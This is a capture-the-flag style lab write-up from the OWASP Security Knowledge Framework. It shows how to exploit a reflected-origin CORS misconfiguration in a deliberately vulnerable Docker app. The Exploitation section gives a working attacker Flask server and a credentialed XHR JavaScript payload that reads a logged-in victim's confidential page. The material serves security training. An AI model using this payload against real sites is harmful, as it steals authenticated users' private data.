 # KBID 112 - CORS exploitation

## Running the app

```text
$ sudo docker pull blabla1337/owasp-skf-lab:cors
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:cors
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

![Docker image and write-up thanks to Zerocopter!](.gitbook/assets/zerocopter-logo.jpeg)

## Reconnaissance

Access-Control-Allow-Origin is a response header used by a server to indicate which domains are allowed to read the response. Based on the CORS W3 Specification it is up to the client to determine and enforce the restriction of whether the client has access to the response data based on this header.

From a penetration testing perspective you should look for insecure configurations as for example using a '\*' wildcard as value of the Access-Control-Allow-Origin header that means all domains are allowed.

Nowadays most modern frameworks do dynamical allocation of the origin header. This means that the value that is send from the origin header is dynamically allocated to the Access-Control-Allow-Origin response from the server. To verify the behaviour we need to set up our intercepting proxy, make requests to an API server and tamper with the "origin" header.

Now that we have our proxies set-up let's first start and authenticate against the target application as the regular user.

![](.gitbook/assets/cors3.png)

{% hint style="info" %}
username : admin  
password: admin
{% endhint %}

![](.gitbook/assets/sensitive-info.png)

Now that we have logged in as the target user let's look at some intercepted traffic from the application.

![](.gitbook/assets/cors1.png)

The image above shows highlighted in red that indeed the application has CORS enabled and has set a wildcard for the "Access-Control-Allow-Origin" response header.

Now if we add a "Origin" request header we find that the value from the added Origin header is dynamically allocated to the "Access-Control-Allow-Origin" header.

![](.gitbook/assets/cors2%20%281%29.png)

The rest of the attack wil look kind of similar to a CSRF attack. However, instead of doing a state changing operation on behalf of the targeted user, we will now do a XHR GET request from our evil domain in order to steal sensitive information.

{% hint style="info" %}
More information about CSRF:  
[https://www.owasp.org/index.php/Testing\_for\_CSRF\_\(OTG-SESS-005\)](https://www.owasp.org/index.php/Testing_for_CSRF_%28OTG-SESS-005%29)
{% endhint %}

## Exploitation

In order to to exploit this vulnerability we need to set up our evil webserver to do the malicious XHR GET request from. We could achieve this by creating the following python flask application.

```python
from flask import Flask, request, render_template
import requests


app = Flask(__name__, static_url_path='/static', static_folder='static')

app.config['DEBUG'] = True

@app.route("/")
def start():
    return render_template("evil.html")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```

Save the snippet above to &gt; app.py and run the commands below to install some dependencies.

```text
$ pip install flask
$ pip install requests
$ python app.py
```

Of course you can also run your app on whatever service you want it does not have to be python flask.

### Step2

Now that the service is running we want to serve the malicious piece of javascript that is responsible for performing the malicious XHR GET request.

```javascript
<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','http://localhost:5000/confidential', true);
  req.withCredentials = true;
  req.send();

  function reqListener(){
    var foo = document.getElementById("stolenInfo").innerHTML= req.responseText;
    Console.log(foo)
  }
</script>
```

Save the snippet above to &gt; templates/evil.html and run the command below to start our evil application.

```text
$ python app.py
```

Let's intercept the request from the evil application to the target application.

In this request we find the "Origin" header appended to the request from source "[http://localhost:1337](http://localhost:1337)" as to be expected. It is now good to note when we remove this header from the request the attack is no longer working.

![](.gitbook/assets/cors2.png)

This is due to the fact that the application framework has no value to do the dynamically allocation of the origin header from. Now the "Access-Control-Allow-Origin" response header falls back to it's default which is the "\*" \(wildcard\).

Now, whenever the browser discovers the following header combination:

```text
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
```

It triggers a hidden safety catch in CORS.

![](.gitbook/assets/cors-evil-blocked.png)

This disallows the developer to disable the SOP entirely and expose your site to everyone. At least so the browser thinks, because we have obviously already seen that the dynamically allocation of the origin header achieves the same effect!

Now we refresh the page and let our evil script perform the request as intended!

![](.gitbook/assets/final.png)

We now find that we have successfully have performed a XHR GET request on the authenticated victim users behalf and stolen the sensitive information from the target application!

## Additional sources

Please read here for more information about this attack:  
[https://portswigger.net/blog/exploiting-cors-misconfigurations-for-bitcoins-and-bounties](https://portswigger.net/blog/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)


